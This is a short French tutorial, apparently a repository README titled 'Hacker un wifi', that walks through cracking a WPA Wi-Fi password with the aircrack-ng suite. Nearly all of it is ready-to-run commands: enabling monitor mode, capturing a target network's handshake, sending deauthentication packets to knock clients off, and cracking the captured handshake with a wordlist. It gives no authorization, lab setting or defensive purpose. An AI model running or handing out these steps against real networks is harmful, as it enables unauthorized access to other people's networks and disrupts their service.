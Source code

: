 # Hacker un wifi

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. Lancer le mode monitor sur l'interface concernée :
   - `sudo airmon-ng start [INTERFACE]`

3. Utiliser airodump pour scanner tous les reseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `sudo airodump-ng --bssid [BSSID] -c [CHANNEL] [INTERFACE] --write handshake/handshake.cap`\
    **help :** --bssid = bssid du wifi cible | -c = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée
5. Envoyer des paquets de désauthentification à un utilisateur trouvé dans le handshake :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap -w [WORDLIST] `\
   **help :** -w = location due la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop wlan0mon`
   - ` sudo service network-manager restart`
  

